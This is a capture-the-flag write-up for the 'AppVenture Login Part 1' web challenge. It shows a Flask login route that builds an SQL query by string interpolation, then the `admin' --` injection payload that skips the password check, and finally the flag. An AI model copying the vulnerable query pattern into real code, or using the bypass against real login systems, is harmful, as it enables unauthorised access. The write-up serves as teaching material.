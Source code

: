 ```yaml
---
title: "[AVCTF2021] AppVenture Login Part 1"
slug: avctf2021-av-login-p1
author: [zhaoyun]
date: 2021-12-21
tags: [ctf, web,writeup]
---
```


> Well, I haven't taken CS6131 yet but databases should be easy right??

From the description we can see the keyword databases, based on prior knowledge of the module CS6131, we can be pretty sure this is related to SQL.

Since the source operates on a simple template string SQL command, we can apply simple SQL injection and skip the password check.

```python
@app.route("/login", methods=["post"])
def login():
    username = request.form.get('username', default='', type=str)
    password = request.form.get('password', default='', type=str)
    users = db.execute(f"select id from users where name='{username}' and password='{password}'").fetchall()
    if users:
        return Response(flag1, mimetype='text/plain')
    return Response('Login failed', mimetype='text/plain')
```

In SQL, comments can be made with `--`

To skip the password check, we can simply input `admin' --` in username and leave password blank, which would result in the following command

`````sql
select id from users where name='admin' --' and password=''
`````

Everything behind `--` is ignored and we successfully log in as admin

### http://35.240.143.82:4208/login

```
flag{you_can_pass_cs6131_now}
```

Flag obtained
